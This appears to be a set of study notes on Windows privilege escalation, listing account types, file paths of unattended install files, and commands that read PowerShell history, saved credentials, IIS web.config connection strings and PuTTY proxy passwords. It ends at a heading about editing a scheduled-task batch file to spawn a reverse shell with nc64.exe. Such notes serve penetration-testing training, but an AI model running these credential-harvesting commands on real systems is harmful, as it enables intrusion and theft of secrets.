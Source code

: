 # Privilege Escalation

| SYSTEM / LocalSystem | An account used by the operating system to perform internal tasks. It has full access to all files and resources available on the host with even higher privileges than administrators. |
| :------------------: | :-------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------: |
|     Local Service    |                               Default account used to run Windows services with "minimum" privileges. It will use anonymous connections over the network.                               |
|    Network Service   |                    Default account used to run Windows services with "minimum" privileges. It will use the computer credentials to authenticate through the network.                    |

#### Unattended Windows Installations

* C:\Unattend.xml
* C:\Windows\Panther\Unattend.xml
* C:\Windows\Panther\Unattend\Unattend.xml
* C:\Windows\system32\sysprep.inf
* C:\Windows\system32\sysprep\sysprep.xml

#### Powershell History

`type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt`

* The command above will only work from cmd.exe, as Powershell won't recognize `%userprofile%` as an environment variable. To read the file from Powershell, you'd have to replace `%userprofile%` with `$Env:userprofile`.

#### Saved Windows Credentials

`cmdkey /list`

`runas /savecred /user:admin cmd.exe`

#### IIS Configuration (Internet Information Services)

* Is the default web server on Windows installations.
* The configuration of websites on IIS is stored in a file called `web.config` and can store passwords for databases or configured authentication mechanisms.
* C:\inetpub\wwwroot\web.config
* C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config

`type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString`

#### Retrieve Credentials from Software: PuTTY

* PuTTY is an SSH client commonly found on Windows systems.
* While PuTTY won't allow users to store their SSH password, it will store proxy configurations that include cleartext authentication credentials.

`reg query HKEY_CURRENT_USER\Software\SimonTatham\PuTTY\Sessions\ /f "Proxy" /s`

### Scheduled Tasks

`schtasks /query /tn vulntask /fo list /v` `icacls c:\tasks\schtask.bat` `nc64.exe` can be found on `C:\tools`

**change the bat file to spawn a reverse shell:**
